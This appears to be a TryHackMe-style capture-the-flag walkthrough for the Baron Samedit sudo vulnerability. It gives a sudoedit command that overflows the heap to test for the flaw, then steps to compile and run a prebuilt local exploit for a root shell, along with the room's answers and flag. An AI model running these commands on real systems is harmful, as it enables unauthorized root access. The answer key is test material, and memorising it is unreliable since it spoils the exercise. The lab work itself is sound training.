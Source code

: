 ## Task 1 - Deploy!

------------

***Answer the questions below***

**Deployed!**

`No answer needed`

------------

## Task 2 - Baron Samedit

### Step 1

**Check if the System is Vulnerable**

`sudoedit -s '\' $(python3 -c' print("A"*1000)')`

> If the system is vulnerable then this will overwrite the heap buffer and crash the program

### Step 2

**Change Directory**

`cd Exploit`

### Step 3

**Make exploit**

You will see a file called "Makefile". This indicates that we can automatically compile the exploit simply by typing `make` and pressing enter.

> This will make a new file called `sudo-hax-me-a-sandwich`

### Step 4 

**Run exploit**

`./sudo-hax-me-a-sandwich`

------------
***Answer the Questions Below***

**After compiling the exploit, what is the name of the executable created (blurred in the screenshots above)?**

`sudo-hax-me-a-sandwich`

**You should now have a root shell -- what is the flag in `/root/flag.txt`?**

`THM{NmU4OWYwMWJmMjKxMDiYTU4MWIxNWVk}`